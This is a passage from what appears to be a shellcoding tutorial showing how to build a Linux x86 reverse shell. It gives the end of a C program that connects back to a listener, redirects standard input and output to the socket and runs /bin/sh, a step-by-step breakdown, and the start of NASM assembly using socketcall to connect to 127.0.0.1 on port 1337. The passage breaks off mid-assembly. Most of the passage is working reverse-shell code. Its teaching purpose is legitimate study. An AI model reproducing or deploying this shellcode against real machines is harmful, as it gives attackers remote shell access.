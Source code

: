 ```cpp
    dup2(client_sockid, 1);  
    dup2(client_sockid, 2);  
  
    // Execute /bin/sh  
    execve("/bin/sh", NULL, NULL);  
    return 0;  
} 
```
  
Again, this code lacks error checking and shouldn't be used as is, for a more robust code, check my [sockets](https://github.com/abatchy17/sockets) repo.  

### Quick break down:

1\. Create socket  
2\. Connect to listener  
3\. Redirect `STDIN`, `STDOUT` and `STDERR` to newly created socket from client.  
4\. Spawn the shell.  
  
---

## Converting module to assembly (_sigh_)

For socket programming through syscalls you'll need to make use of three registers:  
1\. `EAX` should always contain 0x66, which is the number of `socketcall()` defined in the linux headers.  
2\. `EBX` should contain the call ID for the specific socket function you want to execute, which is defined in `/usr/include/linux/net.h`.  
3\. `ECX` contains a pointer to the arguments.  
  

[![](http://i.imgur.com/OrTXm31.png)](http://i.imgur.com/OrTXm31.png)

```nasm
global _start  
section .text  
  
_start:  
    ; Socket functions should be accessed through socketcall()  
    ; References:  
    ;   1. http://man7.org/linux/man-pages/man2/socketcall.2.html  
    ;   2. http://lxr.free-electrons.com/source/net/socket.c?v=2.6.35#L2210  
    ; Call ids are defined in /usr/include/linux/net.h and should be put in EBX  
  
    ;  
    ; socket(PF_INET, SOCK_STREAM, IPPROTO_IP)  
    ;  
    cdq                 ; EDX = 0x0 | Saves a byte  
    xor ebx, ebx  
    inc ebx             ; EBX = 0x1 | #define SYS_SOCKET 1  
                        ; saves a byte instead of mov bl, 1  
    push edx            ; zeroed out earlier  
                        ; protocol = 0  
    push ebx            ; SOCK_STREAM = 1  
                        ; Needed for bind(), can be used here to save a few bytes  
    push byte 0x2       ; PF_INET = 2  
    mov ecx, esp  
    push byte 0x66      ; socketcall()  
    pop eax             ; EAX = 0x66  
    int 0x80  
  
    xchg esi, eax       ; sockfd is now stored in esi  
  
    ;  
    ; connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("127.0.0.1")}, 16)  
```